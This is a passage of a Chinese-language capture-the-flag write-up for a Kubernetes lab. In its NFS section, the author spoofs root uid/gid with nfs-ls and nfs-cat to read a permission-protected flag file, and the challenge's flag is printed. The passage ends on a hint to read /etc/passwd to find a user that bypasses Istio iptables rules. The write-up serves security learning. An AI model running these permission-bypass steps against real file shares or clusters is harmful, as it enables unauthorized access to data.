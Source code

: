 ```shell
```


## DATA LEAKAGE

> You might find it useful to look at the [documentaion](https://github.com/sahlberg/libnfs) for nfs-cat and nfs-ls.
>
> The following NFS parameters should be used in your connection string: version, uid and gid


根据提示是用了 nfs，具体是用 pv 和 pvc（相关知识有些忘了），查看一下挂载：

```bash
mount|grep -i "nfs"
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ on /efs type nfs4 (ro,relatime,vers=4.1,rsize=1048576,wsize=1048576,namlen=255,hard,noresvport,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=192.168.4.189,local_lock=none,addr=192.168.124.98)
```

可以发现 flag 但是读取不了，可能就要用 `nfs-cat` 了。

```bash
ls /efs/
flag.txt
cat /efs/flag.txt
cat: /efs/flag.txt: Permission denied
```

但是正常连似乎连不上：

```bash
nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/
Failed to mount nfs share : mount_cb: nfs_service failed
```


根据提示要加上一些参数，估计就是 nfs 版本啥的，问一下 gpt 说可能是 3 或者 4，uid 和 gid 估计就是 0 了。

```bash
nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/?version=4&uid=0&gid=0
[1] 26
[2] 27
player@wiz-k8s-lan-party:/efs$ ----------  1     1     1           73 flag.txt

nfs-cat 'nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4&uid=0&gid=0'
wiz_k8s_lan_party{old-school-network-file-shares-infiltrated-the-cloud!}
```


## BYPASSING BOUNDARIES

> Try examining Istio's [IPTables rules](https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot#use-pid-to-get-iptables).
>
> Try executing "cat /etc/passwd | grep 1337", to find the user that can bypass the Istio's IPTables rules
